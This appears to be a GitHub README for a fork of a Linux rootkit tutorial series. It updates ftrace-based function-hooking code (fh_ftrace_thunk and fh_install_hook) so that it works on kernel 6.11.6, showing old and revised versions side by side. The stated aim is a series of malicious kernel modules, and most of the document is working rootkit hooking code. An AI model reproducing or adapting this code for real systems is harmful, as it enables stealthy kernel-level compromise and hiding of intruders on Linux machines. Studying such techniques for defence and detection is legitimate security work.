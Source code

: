 # Linux-Rootkit-Series forked from Xcellerator

The Linux_kernel_hacking series with the xcellerator was amazing and inspired me to make an updated repo of his project and also make some minor changes since this will be working on 6.11.6. Understanding how these work opens you up to another other world.

This will aim to be a full series of individual malicious linux kernel modules for most recent kernel version 6.11.6.

** This is the link to the Xcellerator blog series https://xcellerator.github.io/posts/linux_rootkits_11/
---

# Changes for fh_ftrace_thunk()

  - This is the old function and its code below:
```
static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, struct ftrace_ops *ops, struct pt_regs *regs)
{
    struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);

#if USE_FENTRY_OFFSET
    regs->ip = (unsigned long) hook->function;
#else
    if(!within_module(parent_ip, THIS_MODULE))
        regs->ip = (unsigned long) hook->function;
#endif
}
```

  - This is the revised code of the function below:

```
static void notrace fh_ftrace_thunk(unsigned long ip, unsigned long parent_ip, struct ftrace_ops *ops, struct ftrace_regs *fregs)  // revised
{
    struct ftrace_hook *hook = container_of(ops, struct ftrace_hook, ops);

    struct pt_regs *regs = ftrace_get_regs(fregs); // Added

#if USE_FENTRY_OFFSET
    regs->ip = (unsigned long) hook->function;
#else
    if(!within_module(parent_ip, THIS_MODULE))
        regs->ip = (unsigned long) hook->function;
#endif
}
```

# Changes to fh_install_hook()

 - This is the old snippet below of the function:

```
int fh_install_hook(struct ftrace_hook *hook)
{
    int err;
    err = fh_resolve_hook_address(hook);
    if(err)
        return err;

    hook->ops.func = fh_ftrace_thunk;
    hook->ops.flags = FTRACE_OPS_FL_SAVE_REGS
            | FTRACE_OPS_FL_RECURSION_SAFE
            | FTRACE_OPS_FL_IPMODIFY;

    err = ftrace_set_filter_ip(&hook->ops, hook->address, 0, 0);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
        return err;
    }

    err = register_ftrace_function(&hook->ops);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: register_ftrace_function() failed: %d\n", err);
        return err;
    }

    return 0;
}
```
  - This is the revised snippet of code for the function below:

```
int fh_install_hook(struct ftrace_hook *hook)
{
    int err;
    err = fh_resolve_hook_address(hook);
    if(err)
        return err;

    hook->ops.func = fh_ftrace_thunk;
    hook->ops.flags = FTRACE_OPS_FL_SAVE_REGS
            | FTRACE_OPS_FL_RECURSION
            | FTRACE_OPS_FL_IPMODIFY;

    err = ftrace_set_filter_ip(&hook->ops, hook->address, 0, 0);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
        return err;
    }

    err = register_ftrace_function(&hook->ops);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: register_ftrace_function() failed: %d\n", err);
        return err;
    }

    return 0;
}
```


